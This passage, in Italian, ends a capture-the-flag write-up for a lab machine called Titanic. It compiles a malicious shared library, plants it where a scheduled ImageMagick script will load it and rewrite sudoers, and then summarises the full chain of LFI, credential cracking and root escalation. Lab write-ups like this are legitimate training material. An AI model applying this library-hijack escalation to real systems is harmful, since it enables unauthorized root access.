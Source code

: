 Lo compiliamo in una libreria condivisa:

```bash
gcc -fPIC -shared -o ./libxcb.so.1 a.c -nostartfiles
```

Posizionando `libxcb.so.1` in `/opt/app/static/assets/images`, attendiamo che lo script venga eseguito (probabilmente su base programmata). Una volta eseguito, modifica `/etc/sudoers`, concedendo a `developer` privilegi sudo senza password. Escaliamo quindi a root:

```bash
sudo su
```

Come root, recuperiamo la flag di root:

```bash
root@titanic:/# cat /root/root.txt
[REDACTED]
```

## 🎉 Conclusione
Questa writeup dimostra la compromissione della macchina Titanic attraverso:
1. **Ricognizione**: Identificazione dei servizi con Nmap.
2. **Enumerazione web**: Scoperta di una vulnerabilità LFI.
3. **Enumerazione virtual host**: Scoperta di `dev.titanic.htb` e un'istanza di Gitea.
4. **Sfruttamento file**: Recupero e analisi di `gitea.db` via LFI.
5. **Cracking delle credenziali**: Estrazione e cracking della password di `developer`.
6. **Accesso iniziale**: Login via SSH per ottenere la flag dell'utente.
7. **Escalation dei privilegi**: Sfruttamento di una vulnerabilità di ImageMagick per ottenere l'accesso root e la flag di root.

